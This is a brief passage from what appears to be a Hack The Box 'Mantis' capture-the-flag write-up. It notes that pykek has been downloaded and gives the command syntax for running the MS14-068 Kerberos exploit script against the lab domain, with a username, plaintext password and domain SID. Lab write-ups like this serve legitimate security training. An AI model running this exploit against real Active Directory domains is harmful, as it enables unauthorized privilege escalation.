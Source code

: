 ![pykek-dl](/images/mantis/pykek-dl.png)

Now that we have pykek downloaded, the command syntax is as follows:
{% highlight bash linenos %}
python ms14-068.py -u james@htb.local -d mantis.htb.local -p "J@m3s_P@ssW0rd!" -s S-1-5-21-4220043660-4019079961-2895681657
{% endhighlight %}
